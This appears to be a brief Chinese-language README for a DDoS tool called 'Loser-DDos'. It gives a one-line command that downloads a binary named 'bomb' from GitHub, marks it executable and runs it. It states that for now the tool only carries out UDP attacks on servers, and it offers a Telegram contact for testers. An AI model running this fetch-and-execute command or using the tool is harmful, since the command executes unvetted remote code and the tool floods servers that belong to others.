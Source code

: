 测试脚本
```
curl -sSL https://raw.githubusercontent.com/seagullz4/Loser-DDos/main/bomb -o bomb && chmod +x bomb && ./bomb
```

暂时只能使用UDP攻击服务器,后续内容正在添加+测试中


测试用户请联系我: [@seagullz44](https://t.me/seagullz44)
